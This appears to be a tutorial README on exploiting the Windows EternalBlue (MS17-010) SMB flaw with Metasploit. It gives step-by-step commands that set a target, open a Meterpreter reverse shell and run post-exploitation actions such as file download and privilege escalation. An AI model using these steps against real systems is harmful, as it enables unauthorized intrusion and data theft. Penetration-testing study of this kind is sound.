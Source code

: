 # Exploiting MS17-010 EternalBlue Vulnerability using Metasploit

## 1. Set Up Your Environment
Ensure you have Metasploit installed on your system. You can use Kali Linux, Parrot OS, or install Metasploit manually on your preferred OS.

## 2. Start Metasploit Framework
Open a terminal and launch Metasploit by typing:

```msfconsole```

Once inside Metasploit, you can search for the EternalBlue module using:

```show module```

## 3. Search for the MS17-010 EternalBlue Exploit Module
To search for a specific module:

```search ms17-010```

## 4. Select the Exploit Module
After finding the appropriate exploit module (e.g., exploit/windows/smb/ms17_010_eternalblue), select it by entering:

`use exploit/windows/smb/ms17_010_eternalblue`

## 5. Set Required Parameters

```Set RHOSTS <Target IP>```

Review other options that might need configuration using the `show options` command and set them accordingly. Common options include `LHOST`, `RPORT`, etc.
-----------------------------------------------------------------------------
| Parameter | Description                           | Example Usage         |
|-----------|---------------------------------------|-----------------------|
| RHOSTS    | Remote host(s) IP address(es)         | set RHOSTS 192.168.1.5|
| LHOST     | Local host listening IP for payloads  | set LHOST 192.168.1.2 |
| RPORT     | Remote port for the target service    | set RPORT 445         |
-----------------------------------------------------------------------------
## 6. Set Payload

After selecting the exploit module, you need to set the payload that will be delivered to the compromised system. This payload determines the action or code executed on the target after exploitation.
For example, to set the payload as a reverse shell for a Windows target:

```set payload windows/meterpreter/reverse_tcp```

## 7. Execute the Exploit
Once all necessary options are set, run the exploit by typing:

```exploit```

The exploit might take some time to run. Upon successful exploitation, Metasploit may display the meterpreter prompt, indicating a successful compromise of the target system.

## 8. Post-Exploitation Actions

Once the exploit succeeds and you gain access to the compromised system, you can perform various post-exploitation actions using the `meterpreter` prompt.

### Some useful post-exploitation commands:

- **System Commands**: Execute system commands on the target system using : ```shell```
  
Gather System Information: Retrieve system information like system details, user information, etc. using commands such as `sysinfo`, `getuid`, etc.

File Operations: Manipulate files on the compromised system using commands like `download`, `upload`, `ls`, `cd`, etc.

Privilege Escalation: Attempt to elevate privileges on the target system using modules like `getsystem`, `migrate`, etc.



